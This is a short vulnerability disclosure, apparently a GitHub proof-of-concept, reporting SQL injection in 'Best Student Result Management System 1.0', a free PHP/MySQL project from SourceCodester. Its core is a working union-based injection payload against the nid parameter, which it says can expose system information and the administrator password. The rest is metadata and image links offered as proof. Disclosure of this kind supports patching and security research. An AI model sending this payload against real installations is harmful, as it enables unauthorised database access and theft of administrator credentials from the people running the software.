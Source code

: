 #### Title: Best Student Result Management System 1.0 SQLi
#### Author: toyydsBT123
#### organize: Arr3stY0u
#### Organization introduction : https://www.shg-sec.com/
#### Date: 15.09.2022
#### Vendor: https://www.sourcecodester.com/users/mayurik
#### Software: https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/Best-Student-Result-Management-System_1.0.poc.md

#### Description:
### The joint query injects the selected item into the query, and can obtain system information and administrator account password. The SQL injection vulnerability on this page severely compromises the security, confidentiality of the application by exposing the application to administrator level information compromise.

# Status: CRITICAL

### [+] Payloads:

``` 
GET
?nid=2' union all select null,user(),null,null-- -
```

## Proof and Exploit:
code![image](https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/1.png)
Firefox browser ![image](https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/2.png)
